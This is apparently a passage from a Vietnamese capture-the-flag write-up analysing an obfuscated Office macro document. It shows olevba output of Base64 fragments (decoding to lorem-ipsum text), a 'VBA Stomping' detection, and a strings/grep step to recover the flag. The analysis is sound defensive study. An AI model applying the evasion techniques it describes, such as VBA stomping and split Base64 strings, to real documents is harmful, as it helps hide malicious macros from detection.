|String    |                    |                                             |
|Base64    |. A                 |LiBB                                         |
|String    |                    |                                             |
|Base64    |uip                 |dWlw                                         |
|String    |                    |                                             |
|Base64    | ea                 |IGVh                                         |
|String    |                    |                                             |
|Base64    |par                 |cGFy                                         |
|String    |                    |                                             |
|Base64    |iat                 |aWF0                                         |
|String    |                    |                                             |
|Base64    |cul                 |Y3Vs                                         |
|String    |                    |                                             |
|Base64    |pa                  |cGEg                                         |
|String    |                    |                                             |
|Base64    |est                 |ZXN0                                         |
|String    |                    |                                             |
|Base64    | ci                 |IGNp                                         |
|String    |                    |                                             |
|Base64    |llu                 |bGx1                                         |
|String    |                    |                                             |
|Base64    |m d                 |bSBk                                         |
|String    |                    |                                             |
|Base64    |olo                 |b2xv                                         |
|String    |                    |                                             |
|Base64    |re.                 |cmUu                                         |
|String    |                    |                                             |
|Base64    | En                 |IEVu                                         |
|String    |                    |                                             |
|Base64    |im                  |aW0g                                         |
|String    |                    |                                             |
|Base64    |ess                 |ZXNz                                         |
|String    |                    |                                             |
|Base64    |e p                 |ZSBw                                         |
|String    |                    |                                             |
|Base64    |ari                 |YXJp                                         |
|String    |                    |                                             |
|Base64    |atu                 |YXR1                                         |
|String    |                    |                                             |
|Base64    |r q                 |ciBx                                         |
|String    |                    |                                             |
|Base64    |uis                 |dWlz                                         |
|String    |                    |                                             |
|Base64    | al                 |IGFs                                         |
|String    |                    |                                             |
|Base64    |iqu                 |aXF1                                         |
|String    |                    |                                             |
|Base64    |a c                 |YSBj                                         |
|String    |                    |                                             |
|Base64    |omm                 |b21t                                         |
|String    |                    |                                             |
|Base64    |odo                 |b2Rv                                         |
|String    |                    |                                             |
|Base64    | ex                 |IGV4                                         |
|String    |                    |                                             |
|Base64    | nu                 |IG51                                         |
|String    |                    |                                             |
|Base64    |lla                 |bGxh                                         |
|String    |                    |                                             |
|Base64    |a e                 |YSBl                                         |
|String    |                    |                                             |
|Base64    |st                  |c3Qg                                         |
|String    |                    |                                             |
|Base64    |non                 |bm9u                                         |
|String    |                    |                                             |
|Base64    |. N                 |LiBO                                         |
|String    |                    |                                             |
|Base64    |isi                 |aXNp                                         |
|String    |                    |                                             |
|Base64    | en                 |IGVu                                         |
|String    |                    |                                             |
|Base64    |qua                 |cXVh                                         |
|String    |                    |                                             |
|Base64    | re                 |IHJl                                         |
|String    |                    |                                             |
|Base64    |pre                 |cHJl                                         |
|String    |                    |                                             |
|Base64    |hen                 |aGVu                                         |
|String    |                    |                                             |
|Base64    |der                 |ZGVy                                         |
|String    |                    |                                             |
|Base64    |it                  |aXQg                                         |
|String    |                    |                                             |
|Base64    |fug                 |ZnVn                                         |
|String    |                    |                                             |
|Base64    | ma                 |IG1h                                         |
|String    |                    |                                             |
|Base64    |gna                 |Z25h                                         |
|String    |                    |                                             |
|Base64    | mi                 |IG1p                                         |
|String    |                    |                                             |
|Base64    |nim                 |bmlt                                         |
|String    |                    |                                             |
|Base64    | ni                 |IG5p                                         |
|String    |                    |                                             |
|Base64    |si                  |c2kg                                         |
|String    |                    |                                             |
|Base64    |mag                 |bWFn                                         |
|String    |                    |                                             |
|Base64    |na                  |bmEg                                         |
|String    |                    |                                             |
|Base64    |lab                 |bGFi                                         |
|String    |                    |                                             |
|Base64    |oru                 |b3J1                                         |
|String    |                    |                                             |
|Base64    |m e                 |bSBl                                         |
|String    |                    |                                             |
|Base64    |lit                 |bGl0                                         |
|String    |                    |                                             |
|Base64    |cep                 |Y2Vw                                         |
|String    |                    |                                             |
|Base64    |teu                 |dGV1                                         |
|String    |                    |                                             |
|Base64    |r c                 |ciBj                                         |
|String    |                    |                                             |
|Base64    |ulp                 |dWxw                                         |
|String    |                    |                                             |
|Base64    |a a                 |YSBh                                         |
|String    |                    |                                             |
|Base64    |met                 |bWV0                                         |
|String    |                    |                                             |
|Base64    | fu                 |IGZ1                                         |
|String    |                    |                                             |
|Base64    |gia                 |Z2lh                                         |
|String    |                    |                                             |
|Base64    |t e                 |dCBl                                         |
|String    |                    |                                             |
|Base64    | ut                 |IHV0                                         |
|String    |                    |                                             |
|Base64    | id                 |IGlk                                         |
|String    |                    |                                             |
|Base64    | co                 |IGNv                                         |
|String    |                    |                                             |
|Base64    |nse                 |bnNl                                         |
|String    |                    |                                             |
|Base64    |t.                  |dC4g                                         |
|String    |                    |                                             |
|Base64    |Vel                 |VmVs                                         |
|String    |                    |                                             |
|Base64    |it,                 |aXQs                                         |
|String    |                    |                                             |
|Base64    | du                 |IGR1                                         |
|String    |                    |                                             |
|Base64    |is                  |aXMg                                         |
|String    |                    |                                             |
|Base64    |nos                 |bm9z                                         |
|String    |                    |                                             |
|Base64    |tru                 |dHJ1                                         |
|String    |                    |                                             |
|Base64    |d c                 |ZCBj                                         |
|String    |                    |                                             |
|Base64    |upi                 |dXBp                                         |
|String    |                    |                                             |
|Base64    |dat                 |ZGF0                                         |
|String    |                    |                                             |
|Base64    |nul                 |bnVs                                         |
|String    |                    |                                             |
|Base64    |la                  |bGEg                                         |
|String    |                    |                                             |
|Base64    |mol                 |bW9s                                         |
|String    |                    |                                             |
|Base64    | no                 |IG5v                                         |
|String    |                    |                                             |
|Base64    |str                 |c3Ry                                         |
|String    |                    |                                             |
|Base64    |ud                  |dWQg                                         |
|String    |                    |                                             |
|Base64    |ani                 |YW5p                                         |
|String    |                    |                                             |
|Base64    |a f                 |YSBm                                         |
|String    |                    |                                             |
|Base64    |ut                  |dXQg                                         |
|String    |                    |                                             |
|Base64    |ur.                 |dXIu                                         |
|String    |                    |                                             |
|Base64    |A                   |CgpB                                         |
|String    |                    |                                             |
|Base64    | si                 |IHNp                                         |
|String    |                    |                                             |
|Base64    |nt                  |bnQg                                         |
|String    |                    |                                             |
|Base64    |ex                  |ZXgg                                         |
|String    |                    |                                             |
|Base64    |iru                 |aXJ1                                         |
|String    |                    |                                             |
|Base64    |re                  |cmUg                                         |
|String    |                    |                                             |
|Base64    | ei                 |IGVp                                         |
|String    |                    |                                             |
|Base64    |usm                 |dXNt                                         |
|String    |                    |                                             |
|Base64    |od                  |b2Qg                                         |
|String    |                    |                                             |
|Base64    |des                 |ZGVz                                         |
|String    |                    |                                             |
|Base64    |eru                 |ZXJ1                                         |
|String    |                    |                                             |
|Base64    |inc                 |aW5j                                         |
|String    |                    |                                             |
|Base64    |idi                 |aWRp                                         |
|String    |                    |                                             |
|Base64    |dun                 |ZHVu                                         |
|String    |                    |                                             |
|Base64    |t o                 |dCBv                                         |
|String    |                    |                                             |
|Base64    |ffi                 |ZmZp                                         |
|String    |                    |                                             |
|Base64    |cia                 |Y2lh                                         |
|String    |                    |                                             |
|Base64    |. E                 |LiBF                                         |
|String    |                    |                                             |
|Base64    |a L                 |YSBM                                         |
|String    |                    |                                             |
|Base64    |m n                 |bSBu                                         |
|String    |                    |                                             |
|Base64    |ost                 |b3N0                                         |
|String    |                    |                                             |
|Base64    |rud                 |cnVk                                         |
|String    |                    |                                             |
|Base64    | of                 |IG9m                                         |
|String    |                    |                                             |
|Base64    |fic                 |Zmlj                                         |
|String    |                    |                                             |
|Base64    |ia                  |aWEg                                         |
|String    |                    |                                             |
|Base64    |adi                 |YWRp                                         |
|String    |                    |                                             |
|Base64    |pis                 |cGlz                                         |
|String    |                    |                                             |
|Base64    |ici                 |aWNp                                         |
|String    |                    |                                             |
|Base64    |ng                  |bmcg                                         |
|String    |                    |                                             |
|Base64    |eu                  |ZXUg                                         |
|String    |                    |                                             |
|Base64    |p.                  |cC4g                                         |
|String    |                    |                                             |
|Base64    |Id                  |SWQg                                         |
|String    |                    |                                             |
|Base64    |eli                 |ZWxp                                         |
|String    |                    |                                             |
|Base64    |t m                 |dCBt                                         |
|String    |                    |                                             |
|Base64    |agn                 |YWdu                                         |
|String    |                    |                                             |
|Base64    |a u                 |YSB1                                         |
|String    |                    |                                             |
|Base64    |t d                 |dCBk                                         |
|String    |                    |                                             |
|Base64    |, n                 |LCBu                                         |
|String    |                    |                                             |
|Base64    | Lo                 |IExv                                         |
|String    |                    |                                             |
|Base64    |rem                 |cmVt                                         |
|String    |                    |                                             |
|Base64    |a i                 |YSBp                                         |
|String    |                    |                                             |
|Base64    |nci                 |bmNp                                         |
|String    |                    |                                             |
|Base64    |did                 |ZGlk                                         |
|String    |                    |                                             |
|Base64    | et                 |IGV0                                         |
|String    |                    |                                             |
|Base64    |com                 |Y29t                                         |
|String    |                    |                                             |
|Base64    |mod                 |bW9k                                         |
|String    |                    |                                             |
|Base64    |o e                 |byBl                                         |
|String    |                    |                                             |
|Base64    |t c                 |dCBj                                         |
|String    |                    |                                             |
|Base64    |ill                 |aWxs                                         |
|String    |                    |                                             |
|Base64    |um.                 |dW0u                                         |
|String    |                    |                                             |
|Base64    | Oc                 |IE9j                                         |
|String    |                    |                                             |
|Base64    |cae                 |Y2Fl                                         |
|String    |                    |                                             |
|Base64    |cat                 |Y2F0                                         |
|String    |                    |                                             |
|Base64    |off                 |b2Zm                                         |
|String    |                    |                                             |
|Base64    |xer                 |eGVy                                         |
|String    |                    |                                             |
|Base64    |cit                 |Y2l0                                         |
|String    |                    |                                             |
|Base64    |ati                 |YXRp                                         |
|String    |                    |                                             |
|Base64    |on                  |b24g                                         |
|String    |                    |                                             |
|Base64    |min                 |bWlu                                         |
|String    |                    |                                             |
|Base64    | ip                 |IGlw                                         |
|String    |                    |                                             |
|Base64    |sum                 |c3Vt                                         |
|String    |                    |                                             |
|Base64    | ir                 |IGly                                         |
|String    |                    |                                             |
|Base64    |ure                 |dXJl                                         |
|String    |                    |                                             |
|Base64    |nt,                 |bnQs                                         |
|String    |                    |                                             |
|Base64    | ad                 |IGFk                                         |
|String    |                    |                                             |
|Base64    |ipi                 |aXBp                                         |
|String    |                    |                                             |
|Base64    |sic                 |c2lj                                         |
|String    |                    |                                             |
|Base64    |ing                 |aW5n                                         |
|String    |                    |                                             |
|Base64    | qu                 |IHF1                                         |
|String    |                    |                                             |
|Base64    |ius                 |aXVz                                         |
|String    |                    |                                             |
|Base64    | eu                 |IGV1                                         |
|String    |                    |                                             |
|Base64    |. L                 |LiBM                                         |
|String    |                    |                                             |
|Base64    |abo                 |YWJv                                         |
|String    |                    |                                             |
|Base64    |rum                 |cnVt                                         |
|String    |                    |                                             |
|Base64    | in                 |IGlu                                         |
|String    |                    |                                             |
|Base64    |xce                 |eGNl                                         |
|String    |                    |                                             |
|Base64    |pte                 |cHRl                                         |
|String    |                    |                                             |
|Base64    |eni                 |ZW5p                                         |
|String    |                    |                                             |
|Base64    |m i                 |bSBp                                         |
|String    |                    |                                             |
|Base64    |psu                 |cHN1                                         |
|String    |                    |                                             |
|Base64    |cil                 |Y2ls                                         |
|String    |                    |                                             |
|Base64    |lum                 |bHVt                                         |
|String    |                    |                                             |
|Base64    |cid                 |Y2lk                                         |
|String    |                    |                                             |
|Base64    |idu                 |aWR1                                         |
|String    |                    |                                             |
|Base64    |ori                 |b3Jp                                         |
|String    |                    |                                             |
|Base64    |s u                 |cyB1                                         |
|String    |                    |                                             |
|Base64    |mco                 |bWNv                                         |
|String    |                    |                                             |
|Base64    |ame                 |YW1l                                         |
|String    |                    |                                             |
|Base64    |t r                 |dCBy                                         |
|String    |                    |                                             |
|Base64    |epr                 |ZXBy                                         |
|String    |                    |                                             |
|Base64    |ehe                 |ZWhl                                         |
|String    |                    |                                             |
|Base64    |nde                 |bmRl                                         |
|String    |                    |                                             |
|Base64    |rit                 |cml0                                         |
|String    |                    |                                             |
|Base64    | cu                 |IGN1                                         |
|String    |                    |                                             |
|Base64    |pid                 |cGlk                                         |
|String    |                    |                                             |
|Base64    |ata                 |YXRh                                         |
|String    |                    |                                             |
|Base64    |t L                 |dCBM                                         |
|String    |                    |                                             |
|Base64    |m p                 |bSBw                                         |
|String    |                    |                                             |
|Base64    |r.                  |ci4g                                         |
|String    |                    |                                             |
|Base64    |Ea                  |RWEg                                         |
|String    |                    |                                             |
|Base64    |aut                 |YXV0                                         |
|String    |                    |                                             |
|Base64    |e i                 |ZSBp                                         |
|String    |                    |                                             |
|Base64    |ea                  |ZWEg                                         |
|String    |                    |                                             |
|Base64    |ull                 |dWxs                                         |
|String    |                    |                                             |
|Base64    |a.                  |YS4K                                         |
|String    |                    |                                             |
|Base64    |Mo                  |Ck1v                                         |
|String    |                    |                                             |
|Base64    |lli                 |bGxp                                         |
|String    |                    |                                             |
|Base64    |t i                 |dCBp                                         |
|String    |                    |                                             |
|Base64    | el                 |IGVs                                         |
|String    |                    |                                             |
|Base64    |t p                 |dCBw                                         |
|String    |                    |                                             |
|Base64    |roi                 |cm9p                                         |
|String    |                    |                                             |
|Base64    |den                 |ZGVu                                         |
|String    |                    |                                             |
|Base64    | la                 |IGxh                                         |
|String    |                    |                                             |
|Base64    |bor                 |Ym9y                                         |
|String    |                    |                                             |
|Base64    |ini                 |aW5p                                         |
|String    |                    |                                             |
|Base64    |m a                 |bSBh                                         |
|String    |                    |                                             |
|Base64    |ute                 |dXRl                                         |
|String    |                    |                                             |
|Base64    |amc                 |YW1j                                         |
|String    |                    |                                             |
|Base64    |o c                 |byBj                                         |
|String    |                    |                                             |
|Base64    |a.                  |YS4g                                         |
|String    |                    |                                             |
|Base64    |Min                 |TWlu                                         |
|String    |                    |                                             |
|Base64    |sin                 |c2lu                                         |
|String    |                    |                                             |
|Base64    |tem                 |dGVt                                         |
|String    |                    |                                             |
|Base64    |por                 |cG9y                                         |
|String    |                    |                                             |
|Base64    | es                 |IGVz                                         |
|String    |                    |                                             |
|Base64    |se                  |c2Ug                                         |
|String    |                    |                                             |
|Base64    |or.                 |b3Iu                                         |
|String    |                    |                                             |
|Base64    | Am                 |IEFt                                         |
|String    |                    |                                             |
|Base64    |sun                 |c3Vu                                         |
|String    |                    |                                             |
|Base64    |olu                 |b2x1                                         |
|String    |                    |                                             |
|Base64    |pta                 |cHRh                                         |
|String    |                    |                                             |
|Base64    |te                  |dGUg                                         |
|String    |                    |                                             |
|Base64    |seq                 |c2Vx                                         |
|String    |                    |                                             |
|Base64    |uat                 |dWF0                                         |
|String    |                    |                                             |
|Base64    |am                  |YW0g                                         |
|String    |                    |                                             |
|Base64    |e o                 |ZSBv                                         |
|String    |                    |                                             |
|Base64    | ul                 |IHVs                                         |
|String    |                    |                                             |
|Base64    |lam                 |bGFt                                         |
|String    |                    |                                             |
|Base64    |co                  |Y28g                                         |
|String    |                    |                                             |
|Base64    |im.                 |aW0u                                         |
|String    |                    |                                             |
|Base64    |nis                 |bmlz                                         |
|String    |                    |                                             |
|Base64    |i p                 |aSBw                                         |
|String    |                    |                                             |
|Base64    | do                 |IGRv                                         |
|String    |                    |                                             |
|Base64    |lor                 |bG9y                                         |
|String    |                    |                                             |
|Base64    |m,                  |bSwg                                         |
|String    |                    |                                             |
|Base64    |t a                 |dCBh                                         |
|String    |                    |                                             |
|Base64    |dui                 |ZHVp                                         |
|String    |                    |                                             |
|Base64    |s c                 |cyBj                                         |
|String    |                    |                                             |
|Base64    |equ                 |ZXF1                                         |
|String    |                    |                                             |
|Suspicious|VBA Stomping        |VBA Stomping was detected: the VBA source    |
|          |                    |code and P-code are different, this may have |
|          |                    |been used to hide malicious code             |
+----------+--------------------+---------------------------------------------+
VBA Stomping detection is experimental: please report any false positive/negative at https://github.com/decalage2/oletools/issues
```

</details>

- Như bài trên bài này cũng bị deobfuscation.
- 
- Nhìn vào hàm wHJG4cI thấy có 1 vài đoạn base64 được cắt ra, thử vài phần đầu thì thấy nó có nghĩa
-  
- Mình sẽ trích xuất tất cả những gì liên quan đến offset này thì thấy flag
> strings data.txt | grep "LitStr 0x0004" > base64.txt
- 
